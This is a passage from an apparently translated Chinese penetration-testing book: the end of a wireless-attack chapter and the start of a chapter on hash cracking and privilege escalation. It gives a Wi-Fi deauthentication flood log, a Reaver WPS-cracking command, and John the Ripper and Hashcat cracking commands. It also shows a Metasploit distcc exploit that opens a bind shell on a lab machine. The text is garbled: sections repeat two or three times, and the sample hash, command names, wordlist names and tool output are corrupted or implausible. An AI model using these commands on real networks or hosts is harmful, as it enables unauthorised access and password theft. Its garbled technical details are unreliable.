10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:22 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:22 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:22 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:22 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:22 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:22 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:22 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
```

图 7.39：`DoS` 攻击及其命令如下：

3. 这种攻击旨在阻断客户端与接入点之间的连接，实际上导致授权用户无法访问网络。随着接入点受到 `DoS` 攻击并拒绝客户端连接，客户端数量会减少。为了缓解此类攻击，网络管理员应实施包括流量过滤和访问控制在内的安全措施，以保护网络的完整性和可用性。见图 7.40：

## 已连接的 WLAN 客户端

| `ID` | `IP` 地址 | 主机名 | `MAC` 地址 | 持续 | 操作 |

|---|---|---|---|---|---|

| 1 | `192.168.1.102` | `DESKTOP-23NLMU7` | `8C:70:5A:1F:8B:1C` | `00:00:16` | 拦截 |

**图 7.40:** `DoS` 攻击导致客户端列表减少

> 注意：`AP` `DoS` 攻击会破坏无线网络，导致生产力损失、通信中断、财务影响、声誉损害以及信任受损。稳健的安全措施对于最大限地减少这些风险至关重要。

## 高级无线攻击

高级无线攻击在现代渗透测试中起着至关重要的作用，包括使用 `Reaver` 攻击无线路由器。`Reaver` 利用了 `WPS` 中的漏洞，这使得入侵无线网络更容易。这种攻击非常有效，网络管理员必须意识到其能力。

## 使用 Reaver 攻击无线路由器

以下是使用 `Reaver` 进行攻击的技术步骤：

- 1. 首先，正如我们在之前的主题中所学习的，我们需要识别目标路由器的 `BSSID` 和信道。

- 2. 接下来，我们可以通过运行命令 `sudo reaver -i wlan0 -b [BSSID] -vv -K 1 -c [channel]` 来使用 `Reaver` 利用 `WPS` 漏洞。`Reaver` 将自动破解 `WPS` `PIN`，如果成功，它将获得路由器的 `WPA/WPA2` 口令。

- 3. 最后，我们可以使用获取的口令连接到路由器并访问无线网络。需要注意的是，禁用 `WPS` 或使用强口令等措施可以防止此类攻击。

需要知道，执行 `Reaver` 进行 `WPS` 破解的过程可能非常耗时，并且不能保证在每种情况下都能成功。然而，我们提供了有关工作命令的详细说明和一种理论方法供您参考。

> 注意：为了防止 `Reaver` 攻击，网络管理员应该禁用 `WPS` 并为无线网络使用强口令。这是因为该攻击利用了 `WPS` 漏洞，且仅对路由器有效

## 结论

总结来说，本章提供了无线网络渗透测试的全面指南，强调了理解无线网络基础知识、安全威胁和标准的重要性。本章涵盖的实际方法论、工具和高级攻击将帮助渗透测试人员识别漏洞并制定有效的防御措施。采用结构化的方法以确保彻底评估至关重要。网络管理员应采取必要措施来防止漏洞和威胁，并维护无线网络的安全。在本章中获得的知识和技能对于任何涉及无线网络安全的人来说都是本质的。

在接下来的章节中，我们将深入研究权限提升和网络跳转的世界。我们将探索用于密码和哈希破解的工具与技术，以及后利用程序。本章旨在让您全面理解渗透测试中使用的高级技术，使能够发现漏洞并加强安全措施。

## 加入我们书籍的 Discord 空间

加入书籍的 `Discord` 工作空间以获取最新更新、优惠、全球科技动态、新发布以及与作者的交流：

https://discord.bpbonline.com

## 第 8 章

### 哈希破解与后渗透利用

## 引言

在本章中，我们将开启一段进入权限提升和网络跳转的迷人旅程。我们的探索将涵盖用于密码和哈希破解的尖端工具和巧妙技术。此外，我们将穿越复杂的后利用程序图谱。本章旨在使你对渗透测试中使用的高级技术有全面的理解，让你能够以最高的精度和专业水平发现漏洞并加强安全措施。

## 结构

在本章中，我们将讨论以下主题：

- 探索哈希函数
- 掌握密码哈希
    - 保护密码的艺术
    - 尖端技术：加盐（Salting）和密钥扩展（key stretching）
- 释放哈希破解技术
    - 策略方法
- 强化哈希破解武器库
    - 哈希战士的精英工具
    - 哈希战士的在线工具
- 哈希、加密与编码的区别
- 后利用与横移动
- 权限提升技术
    - `Linux` 上的权限提升
    - `Windows` 权限提升
- 探索网络跳转
- 持久化与横移动
    - 持久访问和横移动的策略
    - 通过 `hashdump` 技术实现持久化
    - 探索用于横移动的 `RDP`

## 目标

在本章中，我们将讨论以下主题：

- 理解目标：
- 使你对渗透测试中使用的高级技术有全面的理解，让你能够以最高的精度和专业水平发现漏洞并加强安全措施。

### 探索无线攻击

高级无线攻击在现代渗透测试中起着至关重要的作用，包括使用 `Reaver` 攻击无线路由器。`Reaver` 利用了 `WPS` 中的漏洞，这使得入侵无线网络更容易。这种攻击非常有效，网络管理员必须意识到其能力。

### 使用 Reaver 攻击无线路由器

以下是使用 `Reaver` 进行攻击的技术步骤：

- 1. 首先，正如我们在之前的主题中所学习的，我们需要识别目标路由器的 `BSSID` 和信道。
- 2. 接下来，我们可以通过运行命令 `sudo reaver -i wlan0 -b [BSSID] -vv -K 1 -c [channel]` 来使用 `Reaver` 利用 `WPS` 漏洞。`Reaver` 将自动破解 `WPS` `PIN`，如果成功，它将获得路由器的 `WPA/WPA2` 口令。
- 3. 最后，我们可以使用获取的口令连接到路由器并访问无线网络。需要注意的是，禁用 `WPS` 或使用强口令等措施可以防止此类攻击。

需要知道，执行 `Reaver` 进行 `WPS` 破解的过程可能非常耗时，并且不能保证在每种情况下都能成功。然而，我们提供了有关工作命令的详细说明和一种理论方法供您参考。

## 目标

为了防止 `Reaver` 攻击，网络管理员应该禁用 `WPS` 并为无线网络使用强口令。这是因为该攻击利用了 `WPS` 漏洞，且仅对路由器有效

## 哈希函数的用途

为了确保你的加密解决方案符合你的业务或组织需求，全面理解各种哈希算法的优点和局限性至关重要。这些知识让你能够做出明智的决策并建立安全基准。

### 揭示哈希算法

让我们深入常用的算法：

- 消息摘要算法 5 (`MD5`)：最初被使用，这种旧的哈希算法已被发现存在加密薄弱和易受到离线攻击等漏洞。
- 安全哈希算法 1 (`SHA-1`)：尽管广泛广泛，但 `SHA-1` 已因漏洞被认为是弱的。


- 256 位安全哈希算法（SHA-256）：`SHA-256`属于`SHA`家族，生成 256 位的哈希值，并广泛应用于密码存储。

### 哈希破解

| 哈希算法 | 工作因子 | 安全级别 |
|---|---|---|
| `MD5` | 低 | 不安全 |
| `SHA-1` | 低 | 不安全 |
| `SHA-256` | 中 | 安全 |
| `SHA-384` | 高 | 安全 |
| `SHA-512` | 高 | 安全 |
| `bcrypt` | 高 | 非常安全 |

- `Bcrypt` 和 `scrypt`：在基于 `Linux` 的操作系统中，`bcrypt` 和 `scrypt` 是两种流行的密码哈希算法。`Bcrypt` 因其灵活性和对暴力攻击的鲁棒性而受到认可，而 `scrypt` 则因其内存密集型函数和增强针对硬件攻击的防御而受到赞誉。

## 尖端技术 - 加盐与密钥扩展

加盐（Salting）通过在密码哈希过程中增加额外的复杂性，涉及在哈希处理之前在密码后附加一个随机生成的数值。这种技术极大地增加了使用预计算的哈希表或彩虹表破解密码的难度，因为要从组合盐中分离出原始密码变得非常困难。因此，如果两个用户具有相同的密码，他们的哈希值也将不同。为了说明这一点，请参考图 8.1，并考虑以下场景：

密码：`ummedeel1123`

盐：`exampleSALT`

加盐后的密码：`ummedeel1123exampleSALT`

哈希后的密码：`29A48295B77DE3420A15D96D357FF47`


> 密钥扩展（Key stretching）是一种用于加强密码安全的关键技术。`bcrypt` 和 `scrypt` 等方法引入了计算成本，使哈希过程变慢并更能抵抗攻击。应用密钥扩展可以增强对暴力攻击和字典攻击的防护。

## 释放哈希破解技术

解锁哈希破解的秘密涉及使用广泛且经过测试的技术来揭示密码并破解其加密防护。让我们开始对哈希破解进行深度探索并解开它的谜团：

### 策略方法

哈希破解有多种策略，每种策略都有自己的优势和局限性。它们涵盖以下技术：

- `**暴力攻击（Brute force attacks）**`：涉及系统地尝试所有可能的字符组合，旨在破解密码。虽然有效，但较长且具有复杂加密算法的密码会导致过程变得耗时。
- `**字典攻击（Dictionary attacks）**`：通过利用预先构建的列表，字典攻击系统地测试常用密码、单词和短语。这增加了成功破解的可能性。
- `**混合攻击（Hybrid attacks）**`：结合暴力攻击和字典攻击的元素，混合攻击通过引入数字、特殊字符或自定义模式来修改字典单词。
- `**基于规则的攻击（Rule-based attacks）**`：基于规则的攻击利用预定义的模式或规则来操作字典单词或生成自动变体。这些包括大小写、字符替换以及附加或前置字符串等。
- `**彩虹表攻击（Rainbow table attacks）**`：彩虹表利用包含海量可能密码哈希值的预计算表来加速破解过程。这消除了即时哈希计算的需求。

> 渗透测试人员（Pentesters）可以通过理解并实施这些破解技术来增强组织的整体安全性。这使他们能够评估密码安全措施的鲁棒性，并有效地发现漏洞。

## 强化哈希破解武器库

哈希破解是网络安全中的一个基础过程，涉及从加密的哈希值恢复原始明文。在渗透测试或审计的背景下，哈希破解实践在评估密码安全强度和识别潜在影响方面起着关重要的作用。

## 哈希战士的精英工具

在本节中，你将对哈希专家使用的核心工具进行有价值的介绍，提升他们有效破解哈希的能力。这些工具在以更高的效率导航密码安全领域方面起着重要作用。熟悉这些工具将使你能够自信地应对与哈希函数和密码保护相关的挑战。

### Hash-identifier（哈希识别器）

`Hash-identifier` 是一个轻量的实用工具，有助于识别不同哈希类型，因为它会显著影响所选的破解方法。这种方法节省了时间、资源并提高了整体效率。

以下是在 `Kali Linux` 中使用 `hash-identifier` 工具的步骤：

1. 通过运行图 8.2 所示的 `hash-identifier` 命令执行 `hash-identifier` 工具：

```
$ ummedeel@kali:~/Desktop
$ hash-identifier
######################################################################
#                                                                     #
#      /\/      /\/      /\/      /\/      /\/      /\/       #
#     /  \    /  \    /  \    /  \    /  \    /  \       #
#    /      \/      \/      \/      \/      __/          #
#                                                                    V1.2 #
#                                     By ZionR #
#                                     www.Blackplot.com  #
#                               Root@Blackplot.com  #
######################################################################
```

图 8.2：运行 `hash-identifier` 工具

2. `hash-identifier` 工具将提示你输入想要识别的哈希值。复制哈希值，将其粘贴到终端并按回车键。`hash-identifier` 工具将分析提供的哈希并呈现识别出的哈希算法或潜在匹配列表，如图 8.3 所示：

```
HASH: $1ViwJA1lx$VrHXqdnazyV.E252s.Mxd/
```

可能的哈希：

+] `MD5(Unix)`

图 8.3：提供哈希值并识别出的哈希算法

### John the Ripper

`John the Ripper` 是一种备受推崇且强大的密码破解工具，以其灵活性和速度闻名。它可以在 `Windows`、`Linux` 和 `macOS` 在内的多种平台上无缝运行。通过采用字典攻击、暴力攻击和混合攻击等多种技术，它可以高效地破解密码哈希。此外，它的通用性还扩展到支持多种哈希类型。

### 案例 1：破解 Linux 密码的实用示例

让我们考虑从 `Linux` 系统的 `/etc/shadow` 文件中提取的密码：`username=$6XSXZjhmRDYFIN/Qn`

密码：`ummedeel1123`

盐：`exampleSALT`

加盐后的密码：`ummedeel1123exampleSALT`

哈希后的密码：`29A48295B77DE3420A15D96D357FF47`

> 密钥扩展是一种用于加强密码安全的关键技术。`bcrypt` 和 `scrypt` 等方法引入了计算成本，使哈希过程变慢并更能抵抗攻击。应用密钥扩展可以增强对暴力攻击和字典攻击的防护。


让我们考虑从 Linux 系统的 `/etc/shadow` 文件中提取的密码：`username=$6XSXZjhmRDYFIN/Qn`

密码：`ummedeel1123`

盐：`exampleSALT`

加盐后的密码：`ummedeel1123exampleSALT`

哈希后的密码：`29A48295B77DE3420A15D96D357FF47`

- `Bcrypt` 和 `scrypt`：在基于 Linux 的操作系统中，`bcrypt` 和 `scrypt` 是两种流行的密码哈希算法。`Bcrypt` 因其灵活性和对暴力攻击的鲁棒性而受到认可，而 `scrypt` 则因其内存密集型函数和增强针对硬件攻击的防御而受到赞誉。

### 尖端技术 - 加盐与密钥扩展

加盐（`Salting`）通过在密码哈希过程中增加额外的复杂性，涉及在哈希处理之前在密码后附加一个随机生成的数值。这种技术极大地增加了使用预计算的哈希表或彩虹表破解密码的难度，因为要从组合盐中分离出原始密码变得非常困难。因此，如果两个用户具有相同的密码，他们的哈希值也将不同。为了说明这一点，请参考图 8.1，并考虑以下场景：

密码：`ummedeel1123`

盐：`exampleSALT`

加盐后的密码：`ummedeel1123exampleSALT`

哈希后的密码：`29A48295B77DE3420A15D96D357FF47`


> 密钥扩展是一种用于加强密码安全的关键技术。`bcrypt` 和 `scrypt` 等方法引入了计算成本，使哈希过程变慢并更能抵抗攻击。应用密钥扩展可以增强对暴力攻击和字典攻击的防护。

### 释放哈希破解技术

解锁哈希破解的秘密涉及使用广泛且经过测试的技术来揭示密码并破解其加密防护。让我们开始对哈希破解进行深度探索并解开它的谜团：

### 策略方法

哈希破解有多种策略，每种策略都有自己的优势和局限性。它们涵盖以下技术：

- **暴力攻击（`Brute force attacks`）：** 涉及系统地尝试所有可能的字符组合，暴力攻击旨在破解密码。虽然有效，但较长且具有复杂加密算法的密码会导致过程变得耗时。

- **字典攻击（`Dictionary attacks`）：** 通过利用预先构建的列表，字典攻击系统地测试常用密码、单词和短语。这增加了成功破解的可能性。

- **混合攻击（`Hybrid attacks`）：** 结合暴力攻击和字典攻击的元素，混合攻击通过引入数字、特殊字符或自定义模式来修改字典单词。

- **基于规则的攻击（`Rule-based attacks`）：** 基于规则的攻击利用预定义的模式或规则来操作字典单词或生成自动变体。这些包括大小写、字符替换以及附加或前置字符串等。

- **彩虹表攻击（`Rainbow table attacks`）：** 彩虹表利用包含海量可能密码哈希值的预计算表来加速破解过程。这消除了即时哈希计算的需求。

> 渗透测试人员（`Pentesters`）可以通过理解并实施这些破解技术来增强组织的整体安全性。这使他们能够评估密码安全措施的鲁棒性，并有效地发现漏洞。

### 强化哈希破解武器库

哈希破解是网络安全中的一个基础过程，涉及从加密的哈希值恢复原始明文。在渗透测试或审计的背景下，哈希破解实践在评估密码安全强度和识别潜在影响方面起着关重要的作用。

### 哈希战士的精英工具

在本节中，你将对哈希专家使用的核心工具进行有价值的介绍，提升他们有效破解哈希的能力。这些工具在以更高的效率导航密码安全领域方面起着重要作用。熟悉这些工具将使你能够自信地应对与哈希函数和密码保护相关的挑战。

### `Hash-identifier`（哈希识别器）

`Hash-identifier` 是一个轻量的实用工具，有助于识别不同哈希类型，因为它会显著影响所选的破解方法。这种方法节省了时间、资源并提高了整体效率。

以下是在 Kali Linux 中使用 `hash-identifier` 工具的步骤：

1. 通过运行图 8.2 所示的 `hash-identifier` 命令执行 `hash-identifier` 工具：

```bash
$ ummedeel@kali:~/Desktop
$ hash-identifier
######################################################################
#                                                                     #
#      /\/      /\/      /\/      /\/      /\/      /\/       #
#     /  \    /  \    /  \    /  \    /  \    /  \       #
#    /      \/      \/      \/      \/      __/          #
#                                                                    V1.2 #
#                                     By ZionR #
#                                     www.Blackplot.com  #
#                               Root@Blackplot.com  #
######################################################################
```

图 8.2：运行 `hash-identifier` 工具

2. `hash-identifier` 工具将提示你输入你想要识别的哈希值。复制哈希值，将其粘贴到终端并按回车键。`hash-identifier` 工具将分析提供的哈希并呈现识别出的哈希算法或潜在匹配列表，如图 8.3 所示：

```bash
HASH: $1ViwJA1lx$VrHXqdnazyV.E252s.Mxd/
```

可能的哈希：

+] `MD5(Unix)`

图 8.3：提供哈希值并识别出的哈希算法

### John the Ripper

`John the Ripper` 是一种备受推崇且强大的密码破解工具，以其灵活性和速度闻名。它可以在 Windows、Linux 和 macOS 在内的多种平台上无缝运行。通过采用字典攻击、暴力攻击和混合攻击等多种技术，它可以高效地破解密码哈希。此外，它的通用性还扩展到支持多种哈希类型。

### 案例 1：破解 Linux 密码的实用示例

让我们考虑从 Linux 系统的 `/etc/shadow` 文件中提取的密码：`username=$6XSXZjhmRDYFIN/Qn`

密码：`ummedeel1123`

盐：`exampleSALT`

加盐后的密码：`ummedeel1123exampleSALT`

哈希后的密码：`29A48295B77DE3420A15D96D357FF47`

```bash
(ummed@kali):~$ 
$ sudo john --user= --format=NT wordlist=/usr/share/wordlists/rocky.txt windowpasshash.txt
Using default input encoding: UTF-8
Loaded 1 password.hash (NT [MD4 128/AVX 4+])
Warning: No support for this hash type, consider --fork=4
Press q or Ctrl-C to abort almost any other key for status
passwd (ummed)
1 g 0:08:00:00 DOVE (2023-05-27 07:27:41) 100.0/s 518400/c 518400/c damnit..fabricio
Use the "show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

图 8.8: 破解的密码

### John the Ripper Jumbo

`John the Ripper Jumbo` 是 `John the Ripper` 的增强版本，专注于破解复杂密码。它利用了图形处理器（`GPU`）和多核处理器的计算能力，实现了更快的计算。`John the Jumbo` 利用更大的字典文件和规则集来增加字典攻击的成功率。

### Hashcat

`Hashcat` 是一种因其处理大规模破解任务的能力而闻名的工具。它利用 `GPU` 的计算能力来加速破解过程，从而获得更快的结果。`Hashcat` 使用了广泛的哈希算法，提供了暴力破解、字典、组合和掩码攻击等攻击模式，使其成为哈希战士灵活的选择。

### 案例：使用 Hashcat 破解 Linux 密码的实际说明

让我们通过以下步骤来理解使用 `Hashcat` 破解哈希的过程：

1. `Hashcat` 为每个哈希函数分配一个引用值。要检查哈希函数相关的关联值，请使用命令 `hashcat -h | grep sha512`，如图 8.9 所示。

```bash
(ummed@kali):~/desktop 
$ hashcat -h | grep sha512
1770 sha512(utf16($salt))
1720 sha512($salt)
1720 sha512($salt)
1740 sha512(utf16($salt)),salt)
1730 sha512(utf16($salt)),salt)
650 AIX (Unix)
1800 sha512$crypt, $sha512 (Unix)
26800 sha512$crypt($salt,$pass)) bcryptsha512
21600 Web2py pbkdf2-sha512
20200 Python hashlib pbkdf2-sha512
21000 BitShares v.0 - sha512(sha512_bin(pass))
```

| 原始哈希 | 加盐并迭代的哈希 |
| :--- | :--- |

图 8.9: 哈希函数的关联视频

2. 通过运行命令 `hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rocky.txt -O` 来使用 `hashcat` 工具。`-a` 标志表示攻击模式，`-m` 标志表示引用值，`hash.txt` 指定要破解的哈希文件路径，`/usr/share/wordlists/rocky.txt` 提供字典（如 `rocky.txt`）或任何你喜欢的自定义列表的路径。一旦成功破解哈希，将显示明文密码。由于 `GPU` 的密集使用以及该过程的耗时性，在这种情况下期望显示破解的密码是不现实的。

图 8.10:

```bash
$ sudo hashcat -m 1800 -a 0 linuxpasshash.txt /usr/share/wordlists/rocky.txt -O
[sub] password for hashcat:
hashcat: v6.21.0
OpenCL API: OpenCL 3.0 BCP-3.0(TM) Intel(R) HD Graphics 620 @ 2.50GHz, 294/163 MB (256 MB allocated), GPU - Platform #1 [The pocj project]
* Device: #1 intel-thread-1(CoreTM)3.0)
* Minimum password length required by kernel: 8
* Maximum password length required by kernel: 15
Hashes: 5 digits, 1 unique digit salts
Bits: 16, 65536 entries, 0x0000ffff mask, 26214 bytes, 5/3 routes
Rules:
Optimizers applied:
* Dictionary-fail
* Zero-Byte
* Single-Salt
* Single-Hash
* User-66
Watchdog: Temperature abort trigger set to 90c
Initializing backend runtime for time: please be...
```

图 8.10: 使用 `Hashcat` 破解哈希

3. 在 Kali Linux 中，`rocky.txt` 文件预装在 `/usr/share/wordlists/` 目录下。或者，你可以通过执行命令 `locate wordlists | less` 来使用其他字典文件，如图 8.11 所示：

```bash
/usr/share/wordlists/rocky.txt
/usr/share/wordlists/dir.txt
/usr/share/wordlists/common.txt
/usr/share/wordlists/you.txt
/usr/share/wordlists/unix.txt
/usr/share/wordlists/clues.txt
/usr/share/wordlists/share.txt
/usr/share/wordlists/nmap.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/conti.txt
/usr/share/wordlists/rocky.txt
/usr/share/wordlists/db.txt
```

图 8.11: 字典文件列表

让我们深入探讨权限提升（`privilege escalation`），它指的是获取系统或网络上超出初始授权的提升访问权限和权限。这一过程涉及利用漏洞或配置错误来提升权限，使攻击者能够超越其设定的边界。

为了更好地理解这一概念，我们将探索 Linux 和 Windows 环境下权限提升的真实示例。

## Linux 上的权限提升

让我们通过遵循系统的方法来实现初始访问、准备和权限提升，探索 Linux 权限提升的各个阶段。

### 第一阶段：初始访问

1. 为了获得对目标机器 `Metasploitable2` 的初始访问，我们可以利用 `DistCC` 漏洞。为了使用 `Metasploit` 完成此操作，请按照以下步骤操作，并将占位符替换为您的 `Metasploitable 2` 目标机器 IP 地址，如图 8.16 所示。

```bash
use exploit/unix/misc/distcc_exec

set RHOST <target_host_IP>

set payload cmd/unix/bind_ruby

exploit
```

```bash
msf > use exploit/unix/misc/distcc_exec
[*] Using configured payload cmd/unix/bind_ruby
msf > exploit/unix/misc/distcc_exec > * set RHOST 192.168.29.146
RHOSTS = 192.168.29.146
msf > exploit/unix/misc/distcc_exec > * set payload cmd/unix/bind_ruby
msf > exploit/unix/misc/distcc_exec > * exploit
```


### 第一阶段：获取初始访问

```
[ 192.168.29.162:3632 - stderr: -lin 'initialize': Address in use - bind(2) (Errno: EADDRINUSE)
[+] 192.168.29.162:3632 - stderr: from -lin 'new'
[+] 192.168.29.162:3632 - stderr: new
[*] Started TCP handler against 192.168.29.146:4444 -> 192.168.29.146:4444 at 2023-06-02 08:14:18 -0400
```

> 图 8.16: 获取目标机器的初始访问

执行 `whoami` 命令以确认当前身份。如图 8.17 所示，我们成功获取了访问权限，当前以 `daemon` 用户身份运行 shell：

```
* 192.168.29.146:3632 - stderr: -e:1 in 'initialize': Address already in use bind(2) (Errno: EADDRINUSE)
* 192.168.29.146:3632 - stderr: from -e:1 in 'new'
* 192.168.29.146:3632 - stderr: from -e:1
* Started bind TCP handler used 192.168.29.146:4444 -> 192.168.29.144:4444 at 2023-06-02 08:14:18 -0400
* Command shell session 2 opened (192.168.29.145:41099)
```

```
whoami
daemon
```

> 图 8.17: 获取了用户权限的 shell

## 第二阶段：使用 Udev 漏洞准备权限提升

为了提升权限，我们需要一个内核漏洞。要确定目标机器的内核版本，请在命令 shell 中执行以下命令，如图 8.18 所示：

```
uname -a

lsb_release -a

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 x86_64 GNU/Linux
lsb_release
Distributor ID: Ubuntu
Description: Ubuntu 8.04
Release: 8.04
Codename: hardy
```

> 图 8.18: 确定目标机器的内核版本

根据发现的结果，目标机器运行内核版本为 `2.6.24` 的 `Ubuntu 8.04`。为了发现针对此内核的权限提升漏洞，在 `Kali Linux` 中执行命令 `searchprivilege | grep -i linux | grep -i kernel 2.6`。我们在图 8.19 中发现了高亮显示的这些漏洞。


```bash
root@kali:~# searchprivilege | grep -i linux | grep -i kernel 2.6
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/427n.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/427b.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/427a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/427d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/427f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/427c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/427e.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/427g.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/422b.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege E - Linux/x86_64/422a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/422d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/422f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/422c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/422e.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/421b.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/421a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/421d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/421f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/421c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/421e.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/420b.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/420a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/420d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/420f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/420c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/420e.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/419b.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/419a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/419d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/419f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/419c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/419e.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/418b.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/418a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/418d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/418f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/418c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/418e.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/417b.c
